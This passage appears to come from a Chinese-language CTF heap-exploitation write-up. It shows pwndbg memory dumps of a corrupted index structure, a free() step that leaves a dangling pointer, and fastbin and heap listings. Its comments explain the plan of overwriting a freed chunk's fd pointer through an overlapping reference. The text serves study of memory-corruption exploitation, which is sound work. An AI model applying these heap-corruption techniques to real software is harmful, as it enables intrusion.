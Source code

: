 此时结构体的情况：

```c
0x5fcead98730:	0x0000000000000001	0x0000000000000010
    			#index0
0x5fcead98740:	0x0000555555757010	0x0000000000000001
    								#index1
0x5fcead98750:	0x0000000000000010	0x0000555555757050    
0x5fcead98760:	0x0000000000000001	0x0000000000000010
     			#index2     
0x5fcead98770:	0x0000555555757090	0x0000000000000001
    							    #index3
0x5fcead98780:	0x0000000000000010	0x0000555555757070
0x5fcead98790:	0x0000000000000001	0x0000000000000060
    			#index4（此处发生了改变）#（此处发生了改变）     
0x5fcead987a0:	0x0000555555757090	0x0000000000000001
    			#（此处发生了改变）	   #index6（原index5）
0x5fcead987b0:	0x0000000000000080	0x0000555555757120
```

### 2-2、free(index4)
```c
#index2_content指针还是指向index4_chunk_data
#为了修改之后index4的fd指针，因此我们可以先释放index4
free(4)
```

```c
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x555555757080 ◂— 0x0
0x80: 0x0
unsortedbin （这里显示不准确）
all: 0x0
smallbins
empty
largebins
empty
pwndbg>
```

```c
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555757000
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x555555757020
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x555555757040
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x555555757060
Size: 0x71

Allocated chunk | PREV_INUSE
Addr: 0x5555557570d0
```
